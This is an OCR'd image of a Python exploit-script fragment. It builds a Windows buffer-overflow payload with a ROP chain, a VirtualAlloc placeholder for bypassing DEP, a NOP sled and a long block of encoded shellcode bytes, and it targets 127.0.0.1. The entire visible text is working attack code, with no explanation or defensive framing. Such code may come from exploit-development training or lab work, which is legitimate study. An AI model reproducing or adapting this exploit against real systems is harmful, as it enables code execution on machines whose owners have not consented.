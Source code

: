 ```py
                ## PUT ECX, on ESP
                0x6eb53647,  # mov esp, ecx; ret;

                ]
        return ''.join(pack('<L', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

virtual_alloc_placeholder = pack("<L", (0x45454545)) # KERNEL32!VirtuaAllocStub
virtual_alloc_placeholder += pack("<L", (0x46464646)) # Shellcode Retrun Addres
virtual_alloc_placeholder += pack("<L", (0x47474747)) # Shellcode Address
virtual_alloc_placeholder += pack("<L", (0x48484848)) # dwSize
virtual_alloc_placeholder += pack("<L", (0x49494949)) # flAllocationType
virtual_alloc_placeholder += pack("<L", (0x51515151)) # flProtect

shellcode =  b""
shellcode += b"\xda\xdd\xd9\x74\x24\xf4\x5d\x31\xc9\xb1\x5e"
shellcode += b"\xbf\x85\xf0\x6d\xbf\x83\xed\xfc\x31\x7d\x15"
shellcode += b"\x03\x7d\x15\x67\x05\xe4\x5a\xe6\x22\x07\x5d"
shellcode += b"\x17\x55\xd9\x57\x83\x21\x6b\x58\xc0\x40\x80"
shellcode += b"\x13\xa0\xb0\x13\x7d\x44\x42\x5d\xa2\xdf\x62"
shellcode += b"\xc4\x9b\x90\x92\x7d\x2e\xc5\xa5\x23\x47\x6c"
shellcode += b"\xae\x30\x03\x66\x5b\x39\x53\x89\xc4\x4d\xef"
shellcode += b"\x49\x8e\x2e\xf3\xc9\x91\x11\x78\x66\x8a\x26"
shellcode += b"\x38\x58\xab\xe0\x4e\xdd\x57\xf3\x67\x94\x2c"
shellcode += b"\xb1\x7b\xad\x07\xb2\x85\x6f\x56\x02\x1c\x73"
shellcode += b"\x35\x06\xdf\xff\x41\xc6\x2a\xf2\x4c\x0a\x41"
shellcode += b"\xf8\x74\xde\xb2\x24\xfe\x01\x31\x73\x24\xbf"
shellcode += b"\x9c\x1d\xaf\xb3\x6a\x6a\xf8\xd7\x6b\xb6\x8c"
shellcode += b"\xec\xe1\x47\x4b\x65\xb1\x63\x77\x17\xf9\x03"
shellcode += b"\x04\x6e\x48\xab\xf5\xc4\xb7\xc2\x4f\xf7\xdf"
shellcode += b"\x5a\x01\xf9\xf3\x9d\xcb\x01\x85\x24\xe0\x61"
shellcode += b"\xe7\x58\xbb\x64\xf8\xf1\xb8\x01\x43\xe1\xf1"
shellcode += b"\xd1\x2a\xa9\x9e\xbd\xe2\xa1\x6d\x0c\x2d\x55"
shellcode += b"\xfa\x07\x42\xa7\xa5\xb3\x5b\x92\x4d\xb5\x67"
shellcode += b"\x74\xa5\x28\x9b\xbf\xc6\xe6\x60\x36\x7d\x15"
shellcode += b"\x01\x91\x77\xd0\x7c\xde\xdd\x1e\xf6\x65\xfe"
shellcode += b"\x76\x04\xdf\xd3\x35\xeb\x4a\x28\xb3\x51\x50"
shellcode += b"\xb9\x23\x68\x51\xdf\x1a\x1b\x64\x09\x95\x4c"
shellcode += b"\x57\x89\x43\xd5\x95\x0b\xdc\xda\xcc\x17\xed"
shellcode += b"\xe4\xbe\x77\x5d\x55\x38\x28\x71\x90\x14\x88"
shellcode += b"\xd9\x65\xc1\x28\x53\x5f\xd8\xe8\x33\x30\x72"
shellcode += b"\x29\x1b\xca\x4e\xcf\xe4\x2a\xf5\xd1\xf5\x3d"
shellcode += b"\x6f\x51\x35\x3f\x3f\x01\xe9\x71\x7f\xf9\x45"
shellcode += b"\x22\x2f\xfe\x75\x92\x98\xa8\x8a\x47\x02\x03"
shellcode += b"\x23\x3e\x7b\x6b\x9b\xee\xcb\xeb\x2d\xc6\x9a"
shellcode += b"\x6c\x4c\x10\x8c\x5d\x8f\xf0\x7c\xce\x5f\xa1"
shellcode += b"\x2c\xbe\x0f\x11\x9c\x8e\xf4\xc1\x48\xb0\x4c"
shellcode += b"\x7a\xf7\xd4\x52\x8a\x2f\xb8\xc4\x16\xa2\x5d"
shellcode += b"\x3b\x8d\x67\x17\xa3\x1c\x5e\x41\x9d\xcf\x63"
shellcode += b"\xa7\x15\xbf\x34\x86\x65\x10\xea\xb8\x25\xc1"
shellcode += b"\x42\x69\xf6\xb2\x02\x76\xa3\x2c\x93\x41\x1d"
shellcode += b"\x27\x2c\xae\xcb\xa7"


payload = b'\x41' * (1052 - len(virtual_alloc_placeholder))
payload += virtual_alloc_placeholder
payload += pack("<L", (0x6ab2223e))  # ret
payload += rop_chain
payload += b'\x90' * 600
payload += shellcode
	
target = b'127.0.0.1'
```